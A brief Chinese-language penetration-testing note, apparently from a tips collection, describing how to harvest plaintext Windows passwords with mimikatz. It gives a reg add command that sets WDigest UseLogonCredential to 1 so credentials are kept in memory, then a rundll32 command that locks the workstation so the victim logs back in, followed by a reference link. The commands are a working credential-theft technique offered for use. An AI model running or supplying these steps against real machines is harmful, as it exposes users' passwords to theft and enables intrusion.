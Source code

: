 mimikatz有一个功能是：对方处于锁屏状态时解锁，即可抓到明文密码，前提需要先修改一处注册表
```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1
```
命令行下锁屏
```
rundll32.exe user32.dll,LockWorkStation
```

参考链接：  
https://mp.weixin.qq.com/s/_OfE6XAGO7gRtMYWcOCGiQ
